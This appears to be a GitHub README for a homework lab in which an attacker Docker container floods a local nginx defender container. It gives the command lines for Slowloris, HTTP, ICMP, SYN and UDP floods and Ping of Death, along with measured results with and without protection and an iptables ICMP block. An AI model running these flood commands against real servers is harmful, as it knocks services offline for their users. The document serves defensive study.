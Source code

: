 
Setup two docker containers:
- attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)
- Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection


## Installation

```
clone repository
cd highload-homework-16
docker-compose build
```


## Attacker Tools

Enter to the ```attacker``` container to run attacker tools 
```
docker-compose run attacker bash
```

**Tools:**
- http-flood.sh - *HTTP Flood*
- icmp-flood.sh - *ICMP Flood*
- ping-of-death.sh - *Ping of Daeth*
- set-backend.sh - *Setting target as __unprotected__ NGINX server*
- set-defender.sh - *Setting target as __protected__ NGINX server*
- slowloris.sh - *Slowloris*
- syn-flood.sh - *SYN Flood*
- udp-flood.sh - *UDP Flood*


## Testing

### Slowloris
```
slowhttptest -c 2000 -H -g -o slowhttp -i 10 -r 200 -t GET -u ${TARGET_URL} -x 24 -p 3
```

Attack on NGINX server with DDoS protection **enabled**:
```
initializing:        0
pending:             0
connected:           571
error:               0
closed:              1429
service available:   YES
```

Attack on NGINX server with DDoS protection **disabled**:
```
initializing:        0
pending:             0
connected:           1029
error:               0
closed:              971
service available:   NO
```

```
curl -XGET http://localhost:5050
curl: (52) Empty reply from server
```

### HTTP Flood
```
siege -b -c 250 -t 3m ${TARGET_URL}
```

Attack on NGINX server with DDoS protection **enabled**:
```
{       "transactions":                         6656,
        "availability":                        80.05,
        "elapsed_time":                       179.78,
        "data_transferred":                   163.25,
        "response_time":                        0.36,
        "transaction_rate":                    37.02,
        "throughput":                           0.91,
        "concurrency":                         13.16,
        "successful_transactions":              6656,
        "failed_transactions":                  1659,
        "longest_transaction":                  2.91,
        "shortest_transaction":                 0.00
}
```

Attack on NGINX server with DDoS protection **disabled**:
```
{       "transactions":                       101967,
        "availability":                        99.59,
        "elapsed_time":                       179.61,
        "data_transferred":                  2914.89,
        "response_time":                        0.29,
        "transaction_rate":                   567.71,
        "throughput":                          16.23,
        "concurrency":                        161.81,
        "successful_transactions":            101988,
        "failed_transactions":                   420,
        "longest_transaction":                 16.18,
        "shortest_transaction":                 0.00
}
```

**Comparision**

Network Usage

![Network Usage](./images/f07ccd966a12e9acfbbbd88eea3e2c56fce9810f4036e88a0dd3714f32d0ab8c.png)  

Network Packets

![Network Packets](./images/9bf49e69f73d831c1c0ddc93b4972867a42235dfe4d1d1bc4956c2daf63fbec7.png)  

Load

![Load](./images/f264978022624d9a3c74a868ba30f615dce74e940fdfc2379c09b549d48226d0.png)  

CPU

![CPU](./images/a39d5bf775598e9aefa2a589afb226c1de348bbb9e261b4431f28aee219dc1b9.png)  

Disk I/O

![Disk I/O](./images/a12e454a11a4b05c5eb1026fa55ab0e9463b58a905d828b660971928ec6fbe11.png)  

Nginx Connections

![Nginx Connections](./images/391565fd7386c8cd0f2c935a0470ebd39f230a74736d70fb7546dc90f5c4b448.png)  



### ICMP Flood
```
hping3 --flood --rand-source -1 -p ${TARGET_PORT} ${TARGET_IP}
```

Block ICMP messaging using ```iptables -A INPUT --proto icmp -j DROP```

Blocking starts at **16:19**

Network Usage

![Network Usage](./images/e00c11634d1d3263b6000a20e3f8ae9793d3ae1093348576ddc7a2480f11b144.png)  

Network Packets

![Network Packets](images/ea056ff78ce2ba269b9557a0507c660181602aa2eb39d835b8be22792b0eea7a.png)  



### Ping of Daeth
```
fping -b 65500 ${TARGET_IP}
```

### SYN Flood
```
hping3 -c 20000 -d 120 -S -w 64 -p ${TARGET_PORT} --flood --rand-source ${TARGET_IP}
```

### UDP Flood
```
hping3 --flood --rand-source --udp -p ${TARGET_PORT} ${TARGET_IP}
```
